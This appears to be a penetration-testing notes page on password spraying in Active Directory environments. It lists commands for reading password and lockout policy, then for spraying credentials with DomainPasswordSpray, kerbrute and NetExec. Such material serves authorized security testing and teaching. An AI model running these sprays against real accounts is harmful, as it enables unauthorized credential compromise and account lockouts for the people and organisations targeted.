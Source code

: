 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Password Spray

{% hint style="danger" %}
Accounts can be locked during the process. Always check the password policy before starting the attack.
{% endhint %}

## Password Policy

Checking password policy is important for creating a sufficient wordlist. also, it is important to look for the **Lockout threshold** in order to avoid account lockouts during the brute-force.

Retrieve the password policy:

```batch
net accounts
```

using NetExec:

```bash
nxc smb <ip_address> -u <username> -p <pass> --pass-pol
```

## PowerShell Script

{% embed url="https://github.com/dafthack/DomainPasswordSpray" %}

```powershell
Invoke-DomainPasswordSpray -UserList users.txt -Domain domain-name -PasswordList passlist.txt -OutFile sprayed-creds.txt
```

## Kerbrute

If valid usernames are known, perform a password spray to find weak passwords:

```bash
kerbrute passwordspray <username_list> <password> -d <domain_name> --dc <dc_ip>
```

<figure><img src="../../.gitbook/assets/image.png" alt=""><figcaption><p>Password spray using <code>kerbrute</code></p></figcaption></figure>

## NXC

Another method to spray passwords, particularly targeting various services:

```bash
nxc <service> <target> -u <username_list> -p <password> --continue-on-success
```

<figure><img src="../../.gitbook/assets/image (1).png" alt=""><figcaption><p>Password spray using <code>nxc</code></p></figcaption></figure>

